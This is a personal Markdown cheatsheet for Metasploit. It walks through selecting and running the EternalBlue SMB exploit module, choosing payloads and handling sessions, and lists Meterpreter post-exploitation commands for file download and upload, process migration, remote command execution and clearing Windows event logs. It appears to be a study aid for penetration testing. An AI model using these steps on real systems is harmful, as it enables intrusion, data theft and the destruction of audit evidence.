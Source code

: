 # Metasploit
*Personal cheatsheet*<br/> <br/>
## Basic commands
```help```<br/>
```search```&emsp;Search modules<br/>
```use```&emsp;Select a module<br/>
```info```&emsp;Display info about a specific module<br/>
```options```&emsp;List options you can set<br/>
```advanced```&emsp;Display advanced options for a specific module<br/>
```show```&emsp;Show options in a specific category<br/>
## First steps w/ Metasploit
### ```Eternalblue```
```search eternalblue```<br/>
```use exploit/windows/smb/ms17_010_eternalblue``` to select the module<br/>
```show options```<br/>
```set``` to set a value to a module options<br/>
&nbsp;&nbsp;&nbsp;&nbsp;*ex:* ```set SMBPass username```<br/>
```show payloads``` to list compatible payloads<br/>
```set PAYLOAD <index>``` to select the desired payload, ```index``` *being the id of the playload from* ```show payloads```<br/>
```exploit``` to run the exploit once you've configured all the desired options<br/>
```sessions``` to list all active sessions<br/>
```session -i <index>``` to go into interactive mode with a session, ```index``` *being the id of the session from* ```sessions```<br/>
### ```Meterpreter```
Once you've run an exploit, ideally it'll give you either a regular command shell or a meterpreter shell.<br/>
```meterpreter``` allows you to do various things to **interact w/ the machine**, cf. [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) for the complete list of cmds.<br/>
```download <filepath>``` to dl a file from the remote machine. *NB: you'll need to use **double slashes** for Windows environment*<br/>
```upload <local_file_location> <remote_file_location>``` to upload a file to the machine. *Just like download, you'll need to use **double slashes***<br/>
```ps``` to list **running process**.<br/>
```migrate [<new_pid>]``` is used to **"migrate" from the current process to another** process, *it's possible to specify the PID you'll like to migrate to by specifying it ```<new_pid```*<br/>
```ls``` list files in the current directory.<br/>
```execute``` to execute a command on the remote host.<br/>
```shell``` will start an interactive shell on the remote host.<br/>
```search``` to find files on the remote host.<br/>
```cat``` to display the content of a file.<br/>
```background``` will put your meterpreter shell in background, *to return to the meterpreter shell* ```session -i <session_id>```<br/>
```clearev``` will clear the **Application, System, and Security logs** on a **Windows system**.
